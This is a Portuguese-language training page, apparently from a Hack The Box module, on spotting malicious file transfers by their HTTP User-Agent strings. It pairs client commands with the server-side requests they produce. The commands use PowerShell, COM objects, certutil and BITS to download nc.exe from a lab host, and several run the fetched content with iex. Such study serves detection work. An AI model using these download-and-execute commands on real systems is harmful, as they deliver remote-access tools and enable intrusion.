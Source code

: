 A detecção de comandos baseados em listas negras pode ser facilmente contornada com simples ofuscação, como a alteração de maiúsculas e minúsculas. No entanto, um processo de lista branca para todas as linhas de comando em um ambiente específico, embora demorado, é robusto e eficaz na detecção de comandos incomuns.

No contexto de protocolos cliente-servidor, como HTTP, o cliente e o servidor negociam como o conteúdo será entregue antes da troca de informações. Os clientes HTTP são identificados por sua string de agente de usuário, que os servidores usam para reconhecer o tipo de cliente que está se conectando, como navegadores ou ferramentas como cURL e Nmap.

Organizações podem identificar agentes de usuário legítimos e filtrar o tráfego para focar em anomalias que indiquem comportamento suspeito. Agentes de usuário suspeitos podem ser investigados para determinar se foram usados de forma maliciosa. Além disso, transferências de arquivos maliciosas podem ser detectadas por seus agentes de usuário específicos.

#### Invoke-WebRequest - Cliente
```powershell-session
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

#### Invoke-WebRequest - Servidor
```shell-session
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

#### WinHttpRequest - Cliente
```powershell-session
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```

#### WinHttpRequest - Servidor
```shell-session
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

#### Msxml2 - Cliente
```powershell-session
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```

#### Msxml2 - Servidor
```shell-session
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

#### Certutil - Cliente
```cmd-session
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

#### Certutil - Servidor
```shell-session
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

#### BITS - Cliente
```powershell-session
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
```

#### BITS - Servidor
```shell-session
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```







